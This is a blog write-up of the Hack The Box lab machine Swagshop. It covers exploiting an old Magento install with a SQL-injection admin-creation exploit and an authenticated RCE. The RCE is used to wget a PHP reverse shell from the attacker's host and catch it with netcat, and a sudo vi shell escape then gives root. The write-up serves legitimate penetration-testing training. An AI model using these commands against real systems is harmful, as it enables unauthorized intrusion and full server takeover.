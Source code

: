 ```yaml
---
layout: post
title:  "HTB - Swagshop Write-up"
description: <img src="https://werdinfosec.com/images/2019-09-28/image0.png" class="centered" />

date:   2019-09-28 
categories: hackthebox hack the box swagshop swag shop write-up writeup write up
---
```


<img src="https://werdinfosec.com/images/2019-09-28/image1.png" class="centered" />

<br/>

Hostname: swagshop.htb
======================

IP: 10.10.10.140
================

OS: Ubuntu 16.04
================

Difficulty: Easy
================

Creator: ch4p
=============
<br/>
<br/>
<br/>

TL;DR
=====
Swagshop is an easy linux box on HackTheBox, which is running a vulnerable version of Magento. Using a python exploit, a sql injection creates an admin account.
After creating the admin account a remote code execution python exploit allows for downloading a shell to the webroot. After triggering the reverse shell, loose restictions on sudo allow www-data to run 
vi on files in /var/www/html as root with no password. Escaping vi with a classic shell escape provides a shell as root.

<br/>

Enumeration
===========

Enumeration starts with a quick nmap scan. This reveals two open ports, 22 and 80. 

*command: nmap -sC -sV 10.10.10.140*
<img src="https://werdinfosec.com/images/2019-09-28/image2.png" class="centered" />

Visiting port 80 a magento page is discovered. 

*url: http://10.10.10.140*
<img src="https://werdinfosec.com/images/2019-09-28/image3.png" class="centered" />

Magento version enumeration is done by visting RELEASE_NOTES.txt

*url:http://10.10.10.140/RELEASE_NOTES.txt*
<img src="https://werdinfosec.com/images/2019-09-28/image4.png" class="centered" />

<br/>

Exploitation
============

The first [exploit] used creates an admin user on the Magento Web Application through a sql injection.

*command: searchsploit magento*
<img src="https://werdinfosec.com/images/2019-09-28/image5.png" class="centered" />

Mirroring the exploit to the working directory.

*command: searchsploit -m exploits/xml/webapps/37877.py*
<img src="https://werdinfosec.com/images/2019-09-28/image6.png" class="centered" />

For the exploit to work, remove all uncommented text. We are required to add the target ip to the exploit. The path has to be altered, as it is incorrect.

<img src="https://werdinfosec.com/images/2019-09-28/image7.png" class="centered" />

Set the new admin username and password to anything you'd like. I chose the username and password newadmin:hacker

<img src="https://werdinfosec.com/images/2019-09-28/image8.png" class="centered" />

Running the modified exploit.

*command python magentoexploit.py*
<img src="https://werdinfosec.com/images/2019-09-28/image9.png" class="centered" />

Logging in as 'newadmin to confirm that we have created a valid admin user.

*url: http://10.10.10.140/index.php/admin/*
<img src="https://werdinfosec.com/images/2019-09-28/image10.png" class="centered" />

<br/>

Remote Code Execution Exploit
=============================

Finding an [Authenticated Remote Code Execution Exploit].

<img src="https://werdinfosec.com/images/2019-09-28/image11.png" class="centered" />

Mirroring the exploit to current directory.

<img src="https://werdinfosec.com/images/2019-09-28/image12.png" class="centered" />

The exploit requires the exact date and time of the installation. This information can be found at /app/etc/local.xml

*url: http://10.10.10.140/app/etc/local.xml*
<img src="https://werdinfosec.com/images/2019-09-28/image13.png" class="centered" />

This exploit requires that username and password are defined. Change the install_date variable to reflect local.xml. Also the manual username control prevents the exploit from executing successfully.

<img src="https://werdinfosec.com/images/2019-09-28/image14.png" class="centered" />
<img src="https://werdinfosec.com/images/2019-09-28/image15.png" class="centered" />

Running the exploit. Executing whoami and pwd.

*command python authenticatedrec.py http://10.10.10.140/index.php/admin/ "whoami"*
*command python authenticatedrec.py http://10.10.10.140/index.php/admin/ "pwd"*
<img src="https://werdinfosec.com/images/2019-09-28/image16.png" class="centered" />

Downloading a reverse shell to /var/www/html allows for executing the php when triggered through a web browser. 
Starting python simpleHTTPserver to serve the [pentest monkey reverse shell]. Don't forget to change the IP and Port variable to reflect the attacker's listener information.

*command: python -m SimpleHTTPServer 80*
<img src="https://werdinfosec.com/images/2019-09-28/image17.png" class="centered" />

Downloading the reverse shell with the exploits remote code execution.

*command python authenticatedrec.py http://10.10.10.140/index.php/admin/ "wget http://10.10.14.20/revsh.php"*
<img src="https://werdinfosec.com/images/2019-09-28/image18.png" class="centered" />

Starting a netcat listener:

*command: nc -lvnp 443*
<img src="https://werdinfosec.com/images/2019-09-28/image19.png" class="centered" />

Triggering the reverse shell.

*url: http://10.10.10.140/revsh.php*
<img src="https://werdinfosec.com/images/2019-09-28/image20.png" class="centered" />

Catching the reverse shell as user www-data

<img src="https://werdinfosec.com/images/2019-09-28/image21.png" class="centered" />

Privilege Escalation
====================

First things first, upgrade to a tty with python3. Python 2 is not on this system, but python3 is. 

*command: python3 -c "import pty; pty.spawn('/bin/bash')"*
<img src="https://werdinfosec.com/images/2019-09-28/image22.png" class="centered" />

It appears www-data can run /usr/bin/vi on any file in the /var/www/html directory as root without a password.

*command: sudo -l*
<img src="https://werdinfosec.com/images/2019-09-28/image23.png" class="centered" />

Running the following command will start vi as root. Using vi we can execute any bash command by prepending the command with ':!'.

*command: sudo vi /var/www/html/anyfile*
<img src="https://werdinfosec.com/images/2019-09-28/image24.png" class="centered" />

The shell escape sequence:

*command: :! /bin/bash*
<img src="https://werdinfosec.com/images/2019-09-28/image25.png" class="centered" />

<br/>

ROOTED
======

<img src="https://werdinfosec.com/images/2019-09-28/image26.png" class="centered" />

Flags:

<img src="https://werdinfosec.com/images/2019-09-28/image27.png" class="centered" />


[pentest monkey reverse shell]:https://github.com/pentestmonkey/php-reverse-shell
[Authenticated Remote Code Execution Exploit]:https://www.exploit-db.com/exploits/37811
[exploit]:https://www.exploit-db.com/exploits/37977
